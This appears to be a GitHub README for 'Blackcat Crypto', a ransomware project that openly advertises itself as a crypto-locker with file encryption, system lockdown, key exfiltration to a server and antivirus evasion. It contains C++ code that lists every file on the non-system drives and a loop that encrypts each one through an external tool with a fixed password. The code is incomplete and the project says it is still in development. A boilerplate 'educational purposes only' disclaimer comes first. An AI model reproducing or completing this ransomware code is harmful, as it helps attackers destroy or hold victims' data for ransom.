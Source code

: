 #### DISCLAIMER : OUR TOOLS ARE FOR EDUCATIONAL PURPOSES ONLY. DON'T USE THEM FOR ILLEGAL ACTIVITIES. YOU ARE THE ONLY RESPONSABLE FOR YOUR ACTIONS! OUR TOOLS ARE OPEN SOURCE WITH NO WARRANTY AND AS ARE.

<img src="logon.png" alt="logo">

# Blackcat Crypto

Blackcat Crypto is open source Crypto-Locker. Blackcat Crypto is developed in Visual C++. It has features encrypt all file, lock down the system and send keys back to the server. Multi-threaded functionality helps to this tool make encryption faster.

## Features

1. Strong AES Encryption. (Unbreakable)
2. Lockdown System Functionailty.
3. Multi-Thread Encryption.
4. Undetectable (60+ World Most Popular AntiVirus Bypass).
5. Powerful Web Admin Interface

## Step 1 (Fetch files)

Getting all files from all drive to encrypting them.

Here is Visual C++ program get all list directory & files in drive and store path in text file for encryption later use. I use Boost C++ libraries to get all files list. Please first setup Boost libraries to compile program.

```
#include <boost/config/warning_disable.hpp>
#include <boost/filesystem.hpp>
#include <iostream>
#include <iterator>
#include <stdio.h>
#include <windows.h>

using namespace std;

fstream out_file("data.txt", ios::out);

#define MAX 256

int main(int argc, char* argv[]) {

	int dr_type = 99;
	char dr_avail[MAX];
	char *temp = dr_avail;

	/* 1st we fill the buffer */
	GetLogicalDriveStrings(MAX, dr_avail);
	while (*temp != NULL) { // Split the buffer by null
		dr_type = GetDriveType(temp);

		char skip[10] = "C:\\";

		if (dr_type == 3 && temp[0] != 'C') {

			boost::system::error_code dir_error;

			for (boost::filesystem::recursive_directory_iterator end, dir(temp, dir_error); dir != end; dir.increment(dir_error)) {
				if (dir_error.value()) {
					cerr << "Error accessing file: " << dir_error.message() << endl;
				}
				else {
					cout << dir->path() << endl;
					out_file << dir->path() << "\n";
				}
			}
		}
		temp += lstrlen(temp) + 1;
	}
	out_file.close();
	system("pause");
	
```

## Step 2 (Encrypt files)

Here firstly I get every file path from "data.txt" line by line and send to this crypy tool with type encryption and password. you can also embed all this program in upper loop for getting path and encrypting data recursively.

```
out_file.open("data.txt", ios::in);
	string line;
	while (out_file.good()) {
		getline(out_file, line);
		cout << line << endl;
		std::string cmmd = "crpt.exe -e -p 4321 ";
		cmmd += line;
		system(cmmd.c_str());
	}
```

# Currently in Development....
# Happy Cyber Security.....Happy Open Source...
# :)

